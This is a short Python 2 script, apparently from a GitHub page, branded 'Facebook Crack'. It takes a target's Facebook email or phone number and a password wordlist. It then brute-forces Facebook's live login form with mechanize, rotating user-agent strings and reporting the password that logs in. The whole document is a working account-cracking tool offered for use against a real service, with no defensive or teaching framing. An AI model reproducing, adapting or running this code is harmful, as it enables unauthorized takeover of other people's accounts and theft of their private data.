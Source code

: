 
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import sys
import mechanize
import cookielib
import random




email = str(raw_input("Enter the Facebook Username (or) Email (or) Phone Number : "))


passwordlist = str(raw_input("Enter the wordlist name and path : "))


login = 'https://www.facebook.com/login.php?login_attempt=1'


useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]

def main():
	global br
	br = mechanize.Browser()
	cj = cookielib.LWPCookieJar()
	br.set_handle_robots(False)
	br.set_handle_redirect(True)
	br.set_cookiejar(cj)
	br.set_handle_equiv(True)
	br.set_handle_referer(True)
	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
	welcome()
	search()
	print("Password does not exist in the wordlist")

	
	
def brute(password):
	sys.stdout.write("\r[*] Trying ..... {}\n".format(password))
	sys.stdout.flush()
	br.addheaders = [('User-agent', random.choice(useragents))]
	site = br.open(login)
	br.select_form(nr = 0)
	br.form['email'] = email
	br.form['pass'] = password
	sub = br.submit()
	log = sub.geturl()
	if log != login and (not 'login_attempt' in log):
			print("\n\n[+] Password Find = {}".format(password))
			raw_input("ANY KEY to Exit....")
			sys.exit(1)

			
def search():
	global password
	passwords = open(passwordlist,"r")
	for password in passwords:
		password = password.replace("\n","")
		brute(password)

		
#welcome 
def welcome():
	wel = """
        +=========================================+
        |..........   Facebook Crack   ...........|
        +-----------------------------------------+
        |            #Author: Ha3MrX              | 
        |	       Version 1.0                |
 	|   https://www.youtube.com/c/HA-MRX      |
        +=========================================+
        |..........  Facebook Cracker  ...........|
        +-----------------------------------------+\n\n
"""
	total = open(passwordlist,"r")
	total = total.readlines()
	print wel 
	print " [*] Account to crack : {}".format(email)
	print " [*] Loaded :" , len(total), "passwords"
	print " [*] Cracking, please wait ...\n\n"

	
if __name__ == '__main__':
	main()
